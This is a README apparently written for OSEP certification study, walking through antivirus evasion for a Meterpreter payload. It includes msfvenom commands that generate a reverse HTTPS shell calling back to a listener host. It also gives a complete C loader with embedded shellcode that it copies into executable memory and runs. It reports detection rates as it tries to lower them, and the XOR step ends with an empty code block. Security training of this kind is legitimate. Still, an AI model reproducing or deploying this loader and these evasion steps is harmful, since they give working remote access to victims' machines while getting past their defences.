

ShellCoder
=======

- I use this repository for my OSEP certification
- Thanks to https://github.com/EnginDemirbilek/Flip
- Thanks to https://github.com/9emin1/charlotte
- Thanks to https://github.com/Arno0x/ShellcodeWrapper

The purpose of this document is to check the ability of the antivirus to detect a meterpreter binary. For this purpose I
will try different methods described in the mentioned PDF. Some of these methods may have become obsolete by antivirus
updates since this document was published in 2014. However, it is also possible that some evasion techniques are still
effective against current antiviruses. Therefore, it will be interesting to test these different methods and see if
current antivirus programs can detect a meterpreter payload. It is indeed quite likely that most modern antivirus
programs will be able to detect the meterpreter binary, given that it is known to be used in computer attacks. However,
it is important to note that the detection of software as malicious does not necessarily mean that it will be blocked or
removed by the antivirus. It is possible that an antivirus program may detect the meterpreter binary but not have the
ability to remove it, or ask the user for confirmation before doing so. It is also possible that some versions of
meterpreter are more effective than others at going undetected by antivirus software. In any case, it is important to
continue testing and evaluating the ability of antivirus software to detect this kind of software in order to ensure the
security of our systems.

Step 1
______

- I start my test with a simple binary generated by metasploit.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f exe -o step1.exe
```

Without surprise 53 AV out of 71 detect
it :[Link VirusTotal](https://www.virustotal.com/gui/file/e787031fe8dcc781680e35184f67ea767a08cbab41de70ed3ae04c3f106887da?)




Step 2
------

It is possible that embedding the meterpreter binary in a script written in C may affect the way it is detected by
antivirus software. This is because some antivirus software may be more likely to detect malware when it is embedded in
scripts or programs, rather than when it is present as independent executable files. The .exe files generated by
metasploit have a signature that is very well known to antivirus programs, so the detection rate is very high. It is
also possible that the use of different programming languages can make the binary more difficult to detect for some
antivirus programs, because of the way they parse the code. It will be interesting to see how the results of these tests
differ from those obtained previously and to determine whether the integration of the binary in a C script has an impact
on its detection by antivirus software.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f c
```

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    unsigned char buf[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
    "\x52\x51\x48\x31\xd2\x56\x65\x48\x8b\x52\x60\x48\x8b\x52"
    "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x4d\x31\xc9\x48\x0f"
    "\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
    "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
    "\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
    "\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
    "\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
    "\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
    "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
    "\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
    "\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
    "\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
    "\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
    "\x4b\xff\xff\xff\x5d\x48\x31\xdb\x53\x49\xbe\x77\x69\x6e"
    "\x69\x6e\x65\x74\x00\x41\x56\x48\x89\xe1\x49\xc7\xc2\x4c"
    "\x77\x26\x07\xff\xd5\x53\x53\x48\x89\xe1\x53\x5a\x4d\x31"
    "\xc0\x4d\x31\xc9\x53\x53\x49\xba\x3a\x56\x79\xa7\x00\x00"
    "\x00\x00\xff\xd5\xe8\x0d\x00\x00\x00\x31\x39\x32\x2e\x31"
    "\x36\x38\x2e\x31\x2e\x32\x36\x00\x5a\x48\x89\xc1\x49\xc7"
    "\xc0\xbb\x01\x00\x00\x4d\x31\xc9\x53\x53\x6a\x03\x53\x49"
    "\xba\x57\x89\x9f\xc6\x00\x00\x00\x00\xff\xd5\xe8\x4d\x00"
    "\x00\x00\x2f\x39\x79\x38\x77\x41\x54\x63\x56\x56\x54\x59"
    "\x2d\x5f\x44\x5f\x2d\x58\x55\x42\x47\x45\x51\x6b\x61\x71"
    "\x43\x34\x77\x33\x6f\x6a\x6c\x61\x68\x31\x32\x56\x4a\x38"
    "\x42\x73\x4c\x43\x42\x51\x32\x6b\x62\x63\x49\x34\x2d\x6e"
    "\x31\x4c\x68\x36\x55\x2d\x42\x4c\x4d\x78\x42\x35\x49\x5a"
    "\x56\x38\x42\x62\x6d\x47\x36\x64\x00\x48\x89\xc1\x53\x5a"
    "\x41\x58\x4d\x31\xc9\x53\x48\xb8\x00\x32\xa8\x84\x00\x00"
    "\x00\x00\x50\x53\x53\x49\xc7\xc2\xeb\x55\x2e\x3b\xff\xd5"
    "\x48\x89\xc6\x6a\x0a\x5f\x48\x89\xf1\x6a\x1f\x5a\x52\x68"
    "\x80\x33\x00\x00\x49\x89\xe0\x6a\x04\x41\x59\x49\xba\x75"
    "\x46\x9e\x86\x00\x00\x00\x00\xff\xd5\x4d\x31\xc0\x53\x5a"
    "\x48\x89\xf1\x4d\x31\xc9\x4d\x31\xc9\x53\x53\x49\xc7\xc2"
    "\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x75\x1f\x48\xc7\xc1\x88"
    "\x13\x00\x00\x49\xba\x44\xf0\x35\xe0\x00\x00\x00\x00\xff"
    "\xd5\x48\xff\xcf\x74\x02\xeb\xaa\xe8\x55\x00\x00\x00\x53"
    "\x59\x6a\x40\x5a\x49\x89\xd1\xc1\xe2\x10\x49\xc7\xc0\x00"
    "\x10\x00\x00\x49\xba\x58\xa4\x53\xe5\x00\x00\x00\x00\xff"
    "\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda"
    "\x49\xc7\xc0\x00\x20\x00\x00\x49\x89\xf9\x49\xba\x12\x96"
    "\x89\xe2\x00\x00\x00\x00\xff\xd5\x48\x83\xc4\x20\x85\xc0"
    "\x74\xb2\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd2\x58\xc3"
    "\x58\x6a\x00\x59\xbb\xe0\x1d\x2a\x0a\x41\x89\xda\xff\xd5";

    void *valloc = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(valloc, buf, sizeof buf);
    ((void(*)())valloc)();
}
```

I will now use antiscan.me, a service that offers a similar scan to VirusTotal, but uses fewer antivirus vendors. One of
the advantages of this service is that it does not release the samples it scans, which can be convenient if you don't
want the binary to be made public. The detection rate has risen to 9 out of 26, so we can do better.

- [Link Antisan](https://antiscan.me/scan/new/result?id=JZP5rM62ybAI)


Step 3
------

It is possible that antivirus programs will still detect the executable even if it has been embedded in a C script,
because the meterpreter shellcode itself contains signatures that are known to antivirus programs. To try to get around
this, you can XOR the shellcode before embedding it in the C script. XOR (or "exclusive OR") is a simple encryption
operation that can be used to hide the shellcode signatures. However, it is important to note that this technique can be
easily bypassed by antivirus software and does not guarantee that the binary will remain undetectable. It will be
interesting to see if the use of an XOR on the shellcode has an impact on the detection of the binary by antivirus
software and to compare the results obtained with and without this technique.


```c

```
